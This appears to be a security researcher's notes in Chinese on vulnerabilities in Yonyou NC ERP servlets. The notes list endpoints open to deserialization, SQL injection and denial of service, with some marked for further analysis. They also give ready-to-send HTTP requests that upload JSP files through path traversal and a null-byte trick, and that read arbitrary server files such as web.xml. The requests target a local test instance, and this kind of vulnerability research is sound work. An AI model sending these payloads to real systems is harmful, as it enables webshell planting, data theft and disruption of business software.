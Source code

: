 ## 反序列化

http://127.0.0.1:8081/service/~uapim/nc.bs.pub.im.UserQueryServiceServlet
http://127.0.0.1:8081/service/~uapim/nc.bs.pub.im.UserSynchronizationServlet
http://127.0.0.1:8081/service/~uapim/nc.bs.pub.im.UserAuthenticationServlet
http://127.0.0.1:8081/service/~baseapp/nc.document.pub.fileSystem.servlet.UploadServlet	需要分析 看有没其他漏洞
http://127.0.0.1:8081/service/~webbd/nc.uap.bs.im.servlet.OAUserQryServlet
http://127.0.0.1:8081/service/~webbd/nc.uap.bs.im.servlet.OAUserAuthenticationServlet
http://127.0.0.1:8081/service/~webbd/nc.uap.bs.im.servlet.OAContactsFuzzySearchServlet
http://127.0.0.1:8081/service/~baseapp/nc.message.bs.NCMessageServlet
http://127.0.0.1:8081/servlet/~ic/nc.bs.framework.mx.MxServlet
http://127.0.0.1:8081/servlet/~ic/nc.bs.framework.mx.monitor.MonitorServlet
http://127.0.0.1:8081/service/~aert/uap.pub.ae.model.handle.ModelHandleServlet
http://127.0.0.1:8081/service/~cc/nc.bs.logging.config.LoggingConfigServlet
http://127.0.0.1:8081/servlet/~baseapp/nc.document.pub.fileSystem.servlet.DownloadServlet  需要分析	看有没其他漏洞
http://127.0.0.1:8081/servlet/~uapbs/uap.pub.dc.fileSystem.servlet.DownloadServlet			需要分析	看有没其他漏洞
http://127.0.0.1:8081/servlet/~baseapp/nc.document.pub.fileSystem.servlet.DeleteServlet
http://127.0.0.1:8081/servlet/~ic/uap.framework.rc.controller.ResourceManagerServlet

FileUploadServlet.class    	需要分析	看有没其他漏洞

FileReceiveServlet.class	需要分析	看有没其他漏洞

FileParserServlet.class		需要分析	看有没其他漏洞

FileManageServlet.class		需要分析	看有没其他漏洞



ContactsQueryServiceServlet.class  

ContactsFuzzySearchServlet.class

ConfigResourceServlet.class  逻辑漏洞-用户验证有缺陷

ActionHandlerServlet.class

## 任意文件上传

UploadFileServlet.class

```
POST /mp/login/../uploadControl/uploadFile HTTP/1.1
Host: host
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryoDIsCqVMmF83ptmp
Content-Length: 314
------WebKitFormBoundaryoDIsCqVMmF83ptmp
Content-Disposition: form-data; name="file"; filename="test.jsp"
Content-Type: application/octet-stream

test content
------WebKitFormBoundaryoDIsCqVMmF83ptmp
Content-Disposition: form-data; name="submit"
	
上传
------WebKitFormBoundaryoDIsCqVMmF83ptmp
	
http://127.0.0.1:8081/mp/uploadFileDir/test.jsp
```

SaveXmlToFileServlet.class   但是只能是.xml文件		可利用windows特性%00传jsp文件， 如果windows版本过高不可能成功

```
POST /portal/pt/servlet/saveXmlToFileServlet/doPost?pageId=login&filename=2/../../../../../../../../../../../1 HTTP/1.1
Host: 127.0.0.1:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Type: multipart/form-data; boundary=024ff46f71634a1c9bf8ec5820c26fa9
Accept-Encoding: gzip, deflate
Content-Length: 177

--024ff46f71634a1c9bf8ec5820c26fa9
Content-Disposition: form-data; name="file"; filename=".ZOScC.jsp"

2flYX0pZdqd9hXwFoszSIhjGiI9
--024ff46f71634a1c9bf8ec5820c26fa9--
```


SaveImageServlet.class       但是只能是.png文件	可利用windows特性%00传jsp文件， 如果windows版本过高不可能成功

	POST /portal/pt/servlet/saveImageServlet/doPost?pageId=login&filename=../1.jsp HTTP/1.1
	Host: 127.0.0.1:8081
	Content-Type: application/octet-stream
	User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
	Content-Length: 171
	
	--024ff46f71634a1c9bf8ec5820c26fa9
	Content-Disposition: form-data; name="file"; filename=".ZOScC.jsp"
	
	2flYX0pZdqd9hXwFoszSIhjGiI9
	--024ff46f71634a1c9bf8ec5820c26fa9--
	
	漏洞利用的是windows特性%00， 如果windows版本过高不可能成功

webrt/nc.uap.lfw.core.servlet.LfwFileUploadServlet   文件不知道为啥没传成功，估计要两个磁盘

## 任意文件读取	

OutputImageServlet.class  抽象代码， 将输入流作为文件内容返回给客户端

	POST /portal/pt/servlet/outputImageServlet/doPost?filename=/../../../../2000000&imagetype=png&pageId=login HTTP/1.1
	Host: 127.0.0.1:8081
	User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
	Connection: close
	Cookie: JSESSIONID=695A5D8B1C41BA3F8D74495FC1D37B7E.server
	Accept-Encoding: gzip, deflate
	Content-Length: 6
	Content-Type: application/data
	
	123123

http://127.0.0.1:8081/servlet/~maportal/;/com.yonyou.maportal.bs.padplugin.controller.DownloadServlet?filename=../../WEB-INF/web.xml

FindWebResourceServlet.class  不能../ 
	/NCFindWeb?service=IPreAlertConfigService&filename=
	

## sql注入

MdxQueryServlet.class

MARosterPhotoServlet.class  已有

## 综合漏洞

ManagerServlet.class  不是用友的 是tomcat的
	
	

## 拒绝服务

upass/nc.search.ui.servlet.ClusterStateServlet?opt=test
	阻塞线程60秒
